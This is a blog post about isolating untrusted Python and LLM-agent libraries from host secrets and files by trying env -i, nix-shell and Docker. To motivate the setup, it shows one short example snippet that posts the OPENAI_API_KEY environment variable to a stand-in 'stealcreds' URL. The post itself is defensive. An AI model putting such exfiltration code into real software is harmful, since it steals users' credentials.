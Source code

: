 ```yaml
---
title: "Sandboxed Python Environment"
date: 2024-01-20T22:53:12-05:00
draft: false
toc: true
tags:
- language_models
- python
- security
- nix
- docker
---
```


Disclaimer: I am not a security expert or a security professional.

I've tried out many new AI/LLM libraries in the past year.
Many of these are written in Python.
While trying out new and exciting software is a lot of fun, it's also important to be mindful about what code you allow to run on your system.
Even if code is open source, it's still *possible* that the cool open source library you installed includes code like

```python
import httpx
import os

httpx.post(
    'https://someoneswebsite.com/stealcreds',
    data={'key': os.environ.get("OPENAI_API_KEY")},
)
```

I strongly recommend vetting any libraries you use, using separate API keys per app and setting a spend cap on OpenAI in case your key is compromised.
However, your `OPENAI_API_KEY` isn't all you need to worry about.
Python code (including dependencies) has access to your entire `os.environ`.
It's somewhat common to set environment variables for the shell to be available system wide.
Zsh has a dedicated file that gets sourced when the shell starts up (`.zshenv`).
So if you hypothetically had `GITHUB_API_TOKEN` set in your environment, some open source library could send that secret to its own server and gain access to your stuff.

Thankfully, over time, open source libraries *usually* are scrutinized to the degree that this type of credential stealing becomes more difficult to execute or scale.
However, with the advent of agent-like, language-model-based systems, certain libraries are now asking us to allow them to execute system commands on our behalf.
While many of these require user approval, some have automatic approval capabilities, allowing a language model to roam freely among your system.
If you're reading this article, you probably already know this isn't an awesome idea.

## Some trial and error

I tried several approaches to solve this problem before I identified one that seemed to address most of my concerns.
My goal was to find a safe setup that expected code to use a language model to execute code, peek at my environment or poke around the file system.

### Trying out env

My initial inclination was to try and clear out my environment variables to protect against a program trying to steal my secrets.
The `env -i` command can execute a shell command with an empty environment.
Unfortunately, this approach removes too much of what is needed to run Python, so it wasn't viable.

```sh
❯ env -i python run.py
env: python: No such file or directory
```

### Trying out nix

[Nix](https://nixos.org/) seemed like another possible candidate that could manage an independent version of Python and my dependencies
After a bit of searching, I found a way to create a shell with a nix-specified environment using `nix-shell`.
Loosely following instructions from [this article](https://churchman.nl/2019/01/22/using-nix-to-create-python-virtual-environments/), I created a `shell.nix` file with the following contents

```nix
{ nixpkgs ? import <nixpkgs> {}, pythonVersion ? "python3" }:

nixpkgs.mkShell {
  buildInputs = [
    (nixpkgs.${pythonVersion})
    (nixpkgs.python3Packages.numpy)
    (nixpkgs.python3Packages.openai)
  ];

  shellHook = ''
    echo "Welcome to your Python development environment."
  '';
}
```

I ran `nix-shell` from the same directory, which put me in a shell (within my shell) with a specific version of Python and my specified dependencies installed.

```sh
❯ nix-shell
Welcome to your Python development environment.

❯ which python
/nix/store/<...>-python3-3.11.7/bin/python

❯ python
Python 3.11.7 ...
Type "help", "copyright", "credits" or "license" for more information.
>>> import openai
>>> import numpy
>>>
```
Nix worked as advertised, but I realized this approach didn't provide isolation from my environment variables or my system.
Any Python code I ran from the within the nix shell could still read my environment variables or mess with my host file system if it was malicious.

Nix also has the ability to run a `pure` shell, which per the [docs](https://nixos.org/manual/nix/unstable/command-ref/nix-shell.html#options), will clear most of the environment variables.
I tried this out but it quickly became apparent it was too stripped down for what I was looking for.
It also still had host file system access.

```sh
❯ nix-shell --pure
Welcome to your Python development environment.

[nix-shell:~/dev/try/try_wrapper]$ which python
bash: which: command not found
```

## Using Docker

Given the two main constraints

- host environment variable protection
- host file system protection

I moved on to try and find an approach using Docker, which I knew to provide better file system isolation and an independent set of environment variables.
This approach has become the one I use when I want to try out a new library to get a sense of its capabilities while being mindful of my system's privacy.

Here is how it works.
First, I created a new project with the following files and contents

```text
.
├── .env
├── Dockerfile
├── Makefile
├── requirements.txt
└── run.py
```

`.env`
```env
OPENAI_API_KEY=<your key>
# any other variables
```

`Dockerfile`
```Dockerfile
FROM python:slim
WORKDIR /usr/src/app
COPY *.py /usr/src/app
COPY requirements.txt ./
RUN pip install --no-cache-dir -r requirements.txt
CMD ["python", "./run.py"]
```

`run.py`
```python
import os
from openai import OpenAI
from dotenv import load_dotenv

load_dotenv()

OPENAI_API_KEY = os.environ.get("OPENAI_API_KEY")

client = OpenAI(api_key=OPENAI_API_KEY)

stream = client.chat.completions.create(...)
# the rest of the code
```

`requirements.txt`
```text
openai
python-dotenv
# any other libraries you want to install
```

`Makefile`
```make
.PHONY: run
run:
	docker build -t run_script . && docker run -it --env-file .env run_script
```

With this setup, I added my environment variables to `.env`, my dependencies to `requirements.txt`, my code to `run.py` and to run it all, `make run`, which builds and runs the container defined in `Dockerfile`.

It's not the easiest or the cleanest approach for ongoing development of a project, but it provides a reasonable way to sandbox and isolate new code you want to try out that your don't necessarily trust.
I did several hours of research to find an approach I was satisfied with but I suspect there are other good options out there.
I would love to hear from you if you have an approach you like.
